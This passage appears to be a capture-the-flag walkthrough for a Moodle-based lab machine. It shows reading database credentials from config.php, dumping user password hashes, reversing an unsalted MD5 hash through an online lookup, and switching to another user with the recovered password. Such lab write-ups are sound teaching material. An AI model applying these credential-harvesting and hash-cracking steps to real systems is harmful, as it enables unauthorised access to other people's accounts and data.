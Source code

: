 ## User
Once we are inside the system, the first thing that we want to (always) look at, is the credentials for the database inside the code.  
```
www-data@teacher:/var/www/html/moodle$ ls | grep config
config-dist.php.bak
config.php
config.php.save
```
if we open the file:
```
$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8mb4_unicode_ci',
);
```
Now we can log in into database moodle and extract users hashes:
```
+-------------+--------------------------------------------------------------+
| username    | password                                                     |
+-------------+--------------------------------------------------------------+
| guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
| admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
| giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+-------------+--------------------------------------------------------------+
```
As we can see password fow 'Giovannibak' is slightly different from the others:
```
[root@kali exploits ]$ echo "7a860966115182402ed06375cf0a22af" | wc -c                                      
33
```
Since this string is 32 characters we can suppose this is a MD5 digest.  
MD5 hashes are easy to crack, since most of the cracked hashes are available online.  
So, now, let's just google for the hash, and as we can see, as first result, we do get a page that displays the [cracked hash](https://md5.gromweb.com/?md5=7a860966115182402ed06375cf0a22af):
```
The MD5 hash:
7a860966115182402ed06375cf0a22af
was succesfully reversed into the string:
expelled
```
so now, we can su to giovanni using password 'expelled'
